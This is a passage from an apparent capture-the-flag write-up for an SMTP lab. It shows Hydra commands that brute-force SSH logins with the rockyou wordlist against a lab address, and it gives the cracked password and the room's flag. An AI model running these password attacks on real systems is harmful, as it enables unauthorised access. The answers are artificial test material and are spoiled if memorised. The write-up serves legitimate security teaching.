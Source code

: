 Hydra uses dictionary attacks primarily, both Kali Linux and Parrot OS have many different wordlists in the " */usr/share/wordlists* " directory- if you'd like to browse and find a different wordlists to the widely used "rockyou.txt". Likewise I recommend checking out SecLists for a wider array of other wordlists that are extremely useful for all sorts of purposes, other than just password cracking. E.g. subdomain enumeration
The syntax for the command we're going to use to find the passwords is this:

`hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.69.214 ssh`

Let's break it down:

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/a4ece48d-490d-4b0a-ada5-8489023562d7)

Looks like we're ready to rock n roll!

### What is the password of the user we found during our enumeration stage?

`hydra -l administrator -P /usr/share/wordlists/rockyou.txt 10.10.69.214 ssh`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/0c486c79-6559-4d4c-b3a9-2d8b4c227415)

`alejandro`

### Great! Now, let's SSH into the server as the user, what is contents of smtp.txt

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/641a2c05-de58-44f6-abb4-df0d8914a924)

`THM{who_knew_email_servers_were_c00l?}`



















